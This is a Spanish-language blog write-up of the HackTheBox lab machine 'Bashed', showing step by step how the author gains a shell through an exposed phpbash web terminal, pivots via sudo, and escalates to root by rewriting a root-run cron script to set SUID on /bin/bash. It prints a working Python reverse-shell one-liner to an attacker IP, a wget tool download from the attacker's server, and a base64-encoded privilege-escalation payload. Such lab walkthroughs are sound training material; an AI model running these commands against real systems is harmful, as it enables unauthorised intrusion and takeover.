 ```yaml
---
layout: single
title: Writeup HTB - Maquina Bashed
comments: true
excerpt: "La maquina Bashed es una maquina linux - Easy, que nos presenta una aplicacion web que ejecuta comandos en el servidor modo terminal web, aprovechamos esto para obtener una reverse shell y ejecutamos commandos como el user www-data, posteriormente escalamos privilegios como el usuario scriptmanager haciendo uso de los permisos de sudo. Finalmente logramos escalar privilegios como el usuario root modificando el archivo [test.py](http://test.py) ya que habia una tarea que ejecutaba dicho archivo como usuario root."
date: 2022-02-02
classes: wide
header:
  teaser: /assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - OSCP  
  - Hacking
  - Linux
  - Easy
---
```



# Bashed

<p align="center">
<img src="/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled.png">
</p>


## Resumen

<div style="text-align: justify">
La maquina Bashed es una maquina linux - Easy, que nos presenta una aplicacion web que ejecuta comandos en el servidor modo terminal web, aprovechamos esto para obtener una reverse shell y ejecutamos commandos como el user www-data, posteriormente escalamos privilegios como el usuario scriptmanager haciendo uso de los permisos de sudo. Finalmente logramos escalar privilegios como el usuario root modificando el archivo test.py ya que habia una tarea que ejecutaba dicho archivo como usuario root.
</div>

## Scan Nmap

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%201.png)

## Pagina web - Port 80

bueno ya que tenemos solo un puerto esta maquina, revisemos la pagina web para ver que contiene. 

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%202.png)

vemos que tenemos una aplicacion llamada phpbash, si acedemos al enlace de la pagina vemos una url en la imagen

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%203.png)

intentamos acceder a dicha url pero sin exito

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%204.png)

tambien vemos que nos proporcionan un repositorio de la aplicacion

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%205.png)

por lo tanto hare un escaneo de directorios con dirsearch

```bash
bashed # ❯ dirsearch -u http://10.129.160.128 -w /usr/share/wordlists/dirb/common.txt -f -e php,html,js,txt,save,bak
```

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%206.png)

entonces me interesa la ruta dev y vemos que contiene los archivos del repositorio

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%207.png)

dicha aplicacion nos permite ejecutar comandos en el servidor de una terminal web

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%208.png)

## Reverse shell - User www-data

asi que aprovecharemos la ejecucion de comandos para obtener una reverse shell, primero dejaremos el puerto 443 en escucha con netcat

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%209.png)

y  agremos el siguiente payload a la aplicacion vulnerable

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.54",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

logrando conectarnos siendo el user www-data

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2010.png)

## Escalacion de privilegios - user scripts

revisando los permisos de sudoers, encontramos que podemos ejecutar cualquier comando con el user scriptmanager

```bash
www-data@bashed:/tmp$ sudo -l
```

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2011.png)

asi que obtenemos una sesion con dicho usuario de la siguiente manera

```bash
www-data@bashed:/tmp$ sudo -u scriptmanager /bin/bash
```

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2012.png)

## Escalacion de privilegios - user root

para escalar privilegios descargare en la maquina victima la herramienta pspy64, ya que dicha herramienta monitoreara todo los procesos y tareas que se ejecuten en la maquina victima. Asi pues para realizar este cometido crearemos un servidor web en python

```bash
bashed # > python3 -m http.server 80
```

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2013.png)

y descargamos nuestra herramienta de la siguiente manera

```bash
www-data@bashed:/tmp$ wget http://10.10.14.54/pspy64
```

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2014.png)

ejecutamos nuestra herramienta pspy64

```bash
scriptmanager@bashed:/scripts$ chmod +x pspy64 
scriptmanager@bashed:/scripts$ ./pspy64
```

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2015.png)

notamos que se esta ejecutando un script test.py

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2016.png)

si revisamos la carpeta de dicho archivo vemos que podriamos modificar test.py para ejecutar algun comando que nos ayude a escalar privilegios a root

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2017.png)

Por lo tanto modificaremos test.py de esta manera para otorgar permisos de suid al binario bash de esa manera podremos lograr ser root!!

```bash
scriptmanager@bashed:/scripts$ echo aW1wb3J0IG9zCm9zLnN5c3RlbSgnY2htb2QgdStzIC9iaW4vYmFzaCcp | base64 -d > test.py
scriptmanager@bashed:/scripts$ cat test.py 
import os
os.system('chmod u+s /bin/bash')
```

esperamos un momento y revisamos los permisos de /bin/bash, vemos que todo funciono

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2018.png)

asi que ejecutamos /bin/bash para ser root!!

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2019.png)

gracias por ver este writeup, espero que te hayas divertido tanto como yo me diverti haciendolo. Nos vemos Abeljm
